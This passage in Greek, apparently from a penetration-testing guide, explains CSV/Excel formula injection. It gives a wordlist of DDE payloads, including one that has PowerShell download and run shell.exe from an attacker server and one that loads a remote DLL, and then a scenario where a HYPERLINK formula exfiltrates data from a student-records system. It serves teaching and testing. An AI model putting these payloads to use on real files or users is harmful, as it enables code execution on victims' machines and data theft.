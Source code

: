 Αν η **είσοδός** σας **αντανακλάται** μέσα σε **αρχεία CSV** (ή οποιοδήποτε άλλο αρχείο που πιθανόν θα ανοιχτεί από το **Excel**), ίσως να μπορείτε να βάλετε **τύπους** του Excel που θα **εκτελούνται** όταν ο χρήστης **ανοίγει το αρχείο** ή όταν ο χρήστης **κλικάρει σε κάποιο σύνδεσμο** μέσα στο φύλλο excel.

{% hint style="danger" %}
Σήμερα το **Excel θα ειδοποιήσει** (πολλές φορές) τον **χρήστη όταν κάτι φορτώνεται από έξω από το Excel** προκειμένου να τον προστατεύσει από κακόβουλες ενέργειες. Επομένως, πρέπει να καταβληθεί ειδική προσπάθεια στο Social Engineering για το τελικό payload.
{% endhint %}

### [Wordlist](https://github.com/payloadbox/csv-injection-payloads)
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```
### Hyperlink

**Το παρακάτω παράδειγμα είναι πολύ χρήσιμο για την εξαγωγή περιεχομένου από το τελικό φύλλο excel και για την εκτέλεση αιτημάτων σε αυθαίρετες τοποθεσίες. Απαιτεί όμως από τον χρήστη να κάνει κλικ στον σύνδεσμο (και να αποδεχτεί τις προειδοποιήσεις).**

Το παρακάτω παράδειγμα έχει ληφθεί από [https://payatu.com/csv-injection-basic-to-exploit](https://payatu.com/csv-injection-basic-to-exploit)

Φανταστείτε μια παραβίαση ασφάλειας σε ένα σύστημα Διαχείρισης Φοιτητικών Αρχείων που εκμεταλλεύεται μέσω μιας επίθεσης CSV injection. Η κύρια πρόθεση του επιτιθέμενου είναι να παραβιάσει το σύστημα που χρησιμοποιούν οι δάσκαλοι για να διαχειρίζονται τις λεπτομέρειες των φοιτητών. Η μέθοδος περιλαμβάνει τον επιτιθέμενο να εισάγει ένα κακόβουλο payload στην εφαρμογή, συγκεκριμένα εισάγοντας επιβλαβείς τύπους σε πεδία που προορίζονται για λεπτομέρειες φοιτητών. Η επίθεση εξελίσσεται ως εξής:

1. **Εισαγωγή Κακόβουλου Payload:**
* Ο επιτιθέμενος υποβάλλει μια φόρμα λεπτομερειών φοιτητή αλλά περιλαμβάνει έναν τύπο που χρησιμοποιείται συνήθως σε υπολογιστικά φύλλα (π.χ., `=HYPERLINK("<malicious_link>","Click here")`).
* Αυτός ο τύπος έχει σχεδιαστεί για να δημιουργεί έναν υπερσύνδεσμο, αλλά δείχνει σε έναν κακόβουλο διακομιστή που ελέγχεται από τον επιτιθέμενο.
2. **Εξαγωγή Παραβιασμένων Δεδομένων:**
* Οι δάσκαλοι, ανυποψίαστοι για την παραβίαση, χρησιμοποιούν τη λειτουργικότητα της εφαρμογής για να εξάγουν τα δεδομένα σε ένα αρχείο CSV.
* Το αρχείο CSV, όταν ανοιχτεί, περιέχει ακόμα το κακόβουλο payload. Αυτό το payload εμφανίζεται ως κλικαρίσιμος υπερσύνδεσμος στο υπολογιστικό φύλλο.
3. **Ενεργοποίηση της Επίθεσης:**
* Ένας δάσκαλος κάνει κλικ στον υπερσύνδεσμο, πιστεύοντας ότι είναι ένα νόμιμο μέρος των λεπτομερειών του φοιτητή.
* Με το κλικ, ευαίσθητα δεδομένα (πιθανώς περιλαμβάνοντας λεπτομέρειες από το υπολογιστικό φύλλο ή τον υπολογιστή του δασκάλου) μεταδίδονται στον διακομιστή του επιτιθέμενου.
4. **Καταγραφή των Δεδομένων:**
* Ο διακομιστής του επιτιθέμενου λαμβάνει και καταγράφει τα ευαίσθητα δεδομένα που αποστέλλονται από τον υπολογιστή του δασκάλου.
* Ο επιτιθέμενος μπορεί στη συνέχεια να χρησιμοποιήσει αυτά τα δεδομένα για διάφορους κακόβουλους σκοπούς, παραβιάζοντας περαιτέρω την ιδιωτικότητα και την ασφάλεια των φοιτητών και του ιδρύματος.
